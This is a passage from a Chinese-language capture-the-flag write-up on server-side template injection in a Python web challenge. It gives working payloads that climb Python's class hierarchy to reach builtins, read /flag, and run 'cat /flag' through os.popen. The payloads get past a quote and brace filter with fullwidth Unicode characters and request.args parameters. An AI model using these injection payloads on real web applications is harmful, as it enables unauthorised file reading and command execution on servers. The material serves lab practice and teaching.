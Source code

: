 ```
︷︷().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__[＇open＇](＇/flag＇).read()︸︸
```

![9.png](https://adworld.xctf.org.cn/media/common/836bef94-3f94-47f3-88ab-4a816804352d.png)  
也可以构造这样payload获取flag

```
︷︷().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__[＇eval＇](＂__import__(＇os＇).popen(＇cat /flag＇).read()＂)︸︸
```

**TIPS说在最后**

function需要自己寻找

![10.png](https://adworld.xctf.org.cn/media/common/af09d043-0f95-42d9-b5b4-0f5216ad7fc9.png)

![11.png](https://adworld.xctf.org.cn/media/common/5e7e19b2-647a-4945-9858-719781276483.png)  
︷︷().**class**.**bases**[0].**subclasses**()︸︸  
︷︷().**class**.**bases**[0].**subclasses**()[176]︸︸  
︷︷().**class**.**bases**[0].**subclasses**()[177]︸︸

单引号被过滤，也可使用request.args来进行绕过。POST提交数据

![12.png](https://adworld.xctf.org.cn/media/common/3ef96a29-a3a5-4d1e-9bb9-f5e957d94aef.png)  
http://192.168.68.128:32771/?shy1=open&shy2=/flag

```
str=︷︷().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__[request.args.shy1](request.args.shy2).read()︸︸
```

Unicode字符



`｛	&#65371; ｝	&#65373; ［	&#65339; ］	&#65341; ＇	&#65287; ＂	&#65282;`



